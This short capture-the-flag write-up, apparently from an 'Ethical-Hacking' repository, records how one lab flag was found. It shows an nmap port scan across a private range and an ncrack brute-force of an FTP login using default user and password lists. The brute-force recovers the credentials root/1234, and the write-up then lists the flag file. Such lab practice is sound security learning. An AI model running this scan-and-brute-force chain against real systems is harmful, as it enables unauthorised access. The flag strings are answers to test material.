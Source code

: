 Ethical-Hacking

flag{adcb1f}:
nmap -p21  -oA flaggor 10.0.0-15.0-254 
Host: 10.0.3.51 ()	Ports: 21/open/tcp//ftp///
searched this on google "password cracking ftp kali"
ncrack -U http_default_users.txt -P adobe_top100_pass.txt ftp://10.0.3.51 
  Discovered credentials for ftp on 10.0.3.51 21/tcp:
  10.0.3.51 21/tcp ftp: 'root' '1234'
https://www.howtogeek.com/412626/how-to-use-the-ftp-command-on-linux/
  ftp 10.0.3.51 
  username:root
  pass:1234
ls
flag{adcb1f4352c6330e2ed29a2a427d80964382b57b270db8}.jpg
-------------------------------------------------------------------------------------------
